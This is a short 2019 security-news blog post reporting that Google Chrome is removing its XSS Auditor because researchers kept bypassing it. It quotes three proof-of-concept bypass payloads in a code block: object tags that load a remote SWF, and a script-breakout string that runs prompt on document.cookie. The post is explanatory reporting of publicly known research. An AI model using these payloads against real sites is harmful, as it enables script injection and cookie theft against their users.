 +++
title = "XSS Auditor no more part of Google Chrome"
date = "2019-07-16"
author = "Sandeep Kamble"
cover = ""
tags = ["News"]
description = "Yes, you heard correct Google Chromium devs announced the news about XSS auditor. The XSS auditor time and again bypassed by the client security researcher to execute the malicious javascript, and this may be the primary reason to be deprecated and removed from the Google Chrome browser."
showFullContent = false
+++

Yes, you heard correct Google Chromium devs announced the news about XSS auditor. 
The XSS auditor time and again bypassed by the client security researcher to execute the malicious javascript, and this may be the primary reason to be deprecated and removed from the Google Chrome browser.

The anti-cross site scripting engine (XSS auditor) is not covering all XSS type such as DOM-based XSS, mXSS, and persistent XSS. XSS auditor mostly working on for the reflected XSS, and this is again can be bypassed by tricking the Javascript payload.

Google security team bypassed XSS auditor protection and most of the bypasses working. Here (1 , 2) you can find the different bypasses found by the researcher.

According to the discussion on Google group, the XSS auditor is also leading the cross-site info leaks and fixing them all tedious job.

in 2016 again researcher Masato Kinugawa from Japan bypassed XSS Auditor using following payloads:

```html
PoC1: 
<object allowscriptaccess=always>
<param name=url value=https://l0.cm/xss.swf>

PoC2:
<object allowscriptaccess=always>
<param name=code value=https://l0.cm/xss.swf>

This PoC3 still work on Chrome by James Lee: 

"/>`;prompt`${document.cookie}`</script><script>`
```

Last year MS decided to remove the anti-XSS engine and now this year, Google chrome chose to remove the XSS auditor. It is clear to everyone regex-based filter leads to false-positive, and results are crossing the expectation of the user.

